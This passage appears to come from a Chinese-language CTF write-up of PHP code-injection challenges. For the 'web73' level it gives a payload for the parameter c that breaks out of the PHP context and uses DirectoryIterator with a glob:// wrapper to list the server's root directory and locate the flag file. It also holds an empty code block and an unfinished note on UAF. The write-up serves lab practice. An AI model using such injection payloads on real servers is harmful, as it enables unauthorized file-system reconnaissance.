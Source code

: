 ```php

```

记得要转url

![image-20241129232845637](../assets/image-20241129232845637.png)

##### 所以什么是uaf呢？

（先挖个坑回头补）

#### web73

这一题和上一题的区别其实就是flag的文件改名了，我们用上一题的方法读一下文件

```
c=?><?php $a=new DirectoryIterator("glob:///*");// 创建一个DirectoryIterator对象，遍历根目录
foreach($a as $f)// 遍历每个条目
{
   echo($f->__toString().' ');// 输出条目的名称，并添加一个空格
}
exit(0); // 终止脚本执行
?>
```
